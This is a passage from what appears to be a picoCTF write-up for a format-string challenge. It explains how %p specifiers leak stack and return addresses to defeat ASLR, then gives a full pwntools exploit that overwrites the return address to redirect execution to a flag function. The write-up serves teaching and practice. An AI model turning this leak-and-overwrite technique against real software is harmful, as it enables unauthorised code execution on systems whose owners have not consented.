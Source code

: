 In particular `%20$p` is almost always 8 bytes less than the address of the return value and `%21$p` is the return value. We can use the return value to determine the executable base and the leaked stack address to determine our format string exploit write address. From there, I got the address of the flag function (in the same process where I leaked the above addresses to ensure our offsets were accurate with ASLR enabled). Using all of these we could craft an exploit using pwntools. A few things to keep in mind.

- We can't use the stack base consistently without containerizing our exploit because it's possible (and very likely in fact) that the environment variables are different on remote than locally. Why does this matter? Because `env` vars are pushed to the stack before execution, so our return value address will be different on remote than on local if we use an offset from the stack base (i.e. `%1$lx`).
- Our payload can't be longer than 99 bytes.
- Our payload can't have a `\n` byte in it.

Using the information we got previously, I crafted the following exploit.

```python
from pwn import *

e = ELF("./valley")
context.binary = './valley'

LINK = "shape-facility.picoctf.net"
PORT = 65385
DEBUG = False

def create_process():
    if DEBUG:
        return process("./valley")
    else:
        return remote(LINK, PORT)

# Connect to the remote server
p = create_process()

# Send format string to leak addresses
p.sendline("%20$p|%21$p")

# Receive the leaked values
p.recvuntil("You heard in the distance: ")
leaks = p.recvline().strip().decode()
leaks = leaks.split("|")

# Parse the leaked addresses correctly
stack_address = int(leaks[0], 16) - 8
leak_address = int(leaks[1], 16)

print("The stack address is: ", hex(stack_address))

# Calculate the flag address
gdb_leak = 0x555555555413
gdb_flag = 0x555555555269
real_flag = (gdb_flag - gdb_leak) + leak_address
print(f"The flag() address is: {hex(real_flag)}")

# Create the format string payload to overwrite the return address
offset = 6  # Format string offset
payload = fmtstr_payload(offset, {stack_address: real_flag}, write_size="short")  # short worked best by trial and error
print(f"The length of the payload is {len(payload)} bytes.")

# Send the payload
p.sendline(payload)

```